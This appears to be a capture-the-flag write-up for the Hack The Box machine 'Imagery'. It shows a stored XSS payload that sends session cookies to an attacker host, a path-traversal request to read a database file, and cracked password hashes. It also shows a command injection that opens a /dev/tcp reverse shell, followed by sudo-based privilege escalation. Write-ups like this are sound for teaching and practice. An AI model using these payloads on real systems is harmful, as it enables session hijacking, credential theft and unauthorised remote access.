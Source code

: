 # 💻 HTB: Imagery Writeup

This document details the exploitation path for the Hack The Box machine **Imagery** (Medium difficulty), covering Initial Access via **Remote Code Execution (RCE)** and Privilege Escalation (PrivEsc) via a **Kernel Exploit Wrapper**.

## Summary of Vulnerabilities Exploited

1.  **Broken Access Control:** Exploited a Stored XSS to steal a privileged session cookie.
2.  **Insecure Credential Storage:** Found MD5 hashes in a database file (`db.json`) and cracked the password for the Test User and the system user `mark`.
3.  **Command Injection (RCE):** Abused an ImageMagick execution flaw (`/apply_visual_transform`) to gain an initial shell.
4.  **Privilege Escalation:** Exploited a misconfigured `sudo` policy on a custom binary (`charcol`) that runs a known **Linux Kernel Vulnerability (CVE-2025-21700)** payload as root.

---

## Initial Access: RCE via ImageMagick Injection (User: web)

The web service on **Port 8000** (Werkzeug httpd/Flask) was the primary entry point. The application restricted file uploads and image features to privileged users.

### 1. Information Gathering & Discovery

* **Nmap Scan:** Discovered **Port 22 (SSH)** and **Port 8000 (HTTP)**.
* **Web Enumeration:** Intercepting traffic revealed API endpoints like `/auth_status`, `/upload_image`, and `/apply_visual_transform`.
* **Vulnerability Pivot:** The **`/admin/get_system_log`** endpoint was identified as a potential **Local File Inclusion (LFI)** vulnerability. Attempts to access it failed due to a `403 FORBIDDEN` error.

### 2. Authorization Bypass (XSS $\rightarrow$ Admin Cookie)

Since direct LFI was blocked by authorization, the goal was to steal a valid, privileged cookie.

* **Attack:** A **Stored Cross-Site Scripting (XSS)** attack was launched against the `/report_bug` endpoint.
* **Payload (Injected into `bugDetails`):**
    ```html
    <img src=x onerror=fetch("http://[YOUR_KALI_IP]:8888/?cookie="+document.cookie)>
    ```
* **Execution:** A Python process (the admin bot) viewed the bug report, causing the script to execute and send the privileged cookie to the Netcat listener.

### 3. Data Extraction (LFI $\rightarrow$ Passwords)

Using the newly captured privileged cookie (which bypassed the `403 FORBIDDEN` check), the LFI vulnerability was exploited to read sensitive files:

* **LFI Success:** The payload successfully read the `/etc/passwd` file and the application path from `/proc/self/cmdline` (at `/home/web/web/`).
* **Final Data Source:** The application's database file was located and downloaded:
    ```http
    GET /admin/get_system_log?log_identifier=../../../../../../../home/web/web/db.json
    ```
* **Credentials Found:** The `db.json` file revealed weakly encrypted (MD5) user passwords:
    | User | Hash | Plaintext Password | Role |
    | :--- | :--- | :--- | :--- |
    | `testuser@imagery.htb` | `2c65c8d7bfbca32a3ed42596192384f6` | **`iambatman`** | **RCE Gatekeeper** |
    | `admin@imagery.htb` | `5d9c1d507a3f76af1e5c97a3ad1eaa31` | `strongsandofbeach` | Full Admin |
    | `mark@imagery.htb` | `01c3d2e5bdaf6134cec0a367cf53e535` | **`supersmash`** | **System User** |

### 4. RCE Execution (ImageMagick)

The application restricted the `/apply_visual_transform` RCE endpoint to users with the `isTestuser: true` flag.

* **Final Login:** Logged in as **`testuser@imagery.htb` / `iambatman`** to obtain the correct session cookie.
* **Injection:** The RCE was executed by injecting a shell command into the `height` parameter, which is passed to the ImageMagick (`/usr/bin/convert`) command line:

    ```http
    # Payload executed via Burp Repeater (Test User Cookie)
    POST /apply_visual_transform
    {
      "imageId": "[...]",
      "transformType": "crop",
      "params": {
        "x": 0, "y": 0, "width": 100,
        "height": "100; /bin/bash -i >& /dev/tcp/[KALI_IP]/4444 0>&1"
      }
    }
    ```
* **Result:** A reverse shell was established as the low-privileged **`web`** user.

---

## Privilege Escalation: Root via Kernel Exploit Wrapper (User: root)

### 1. User Flag and Password Cracking

* **Final Password Crack (User: mark):** The password for system user `mark` was cracked from the `db.json` hash using Hashcat.

    | Target Hash | Plaintext Password | Tool/Mode |
    | :--- | :--- | :--- |
    | `01c3d2e5bdaf6134cec0a367cf53e535` | **`supersmash`** | `hashcat -m 0 rockyou.txt` |

* **SSH/SU:** Used the cracked password (`supersmash`) to switch user to `mark` and gain access to the user flag (`b074155730ad4e1f899f3afa9f583ec1`).
    ```bash
    su mark
    # Password: supersmash
    mark@Imagery:~$ cat user.txt 
    ```

### 2. Exploiting the Custom Root Wrapper (`charcol`)

The final escalation requires running a kernel exploit (`tc qdisc` commands) that is permission-blocked. The developer's intended solution was the custom wrapper **`charcol`** running as **root**.

* **Root Exploit Command:**
    The `mark` user was authorized to run `/usr/local/bin/charcol shell` as root without a password. This command executes a Python script that contains the core exploit payload.

    ```bash
    # Execute the custom wrapper as root
    sudo /usr/local/bin/charcol shell
    ```
* **Result:** The kernel exploit sequence **(CVE-2025-21700 UAF)** was triggered by the root-executed script, dropping a **root shell**.

### 3. Final Flag Capture

```bash
root@Imagery:/# cat /root/root.txt
[ROOT_FLAG_HERE]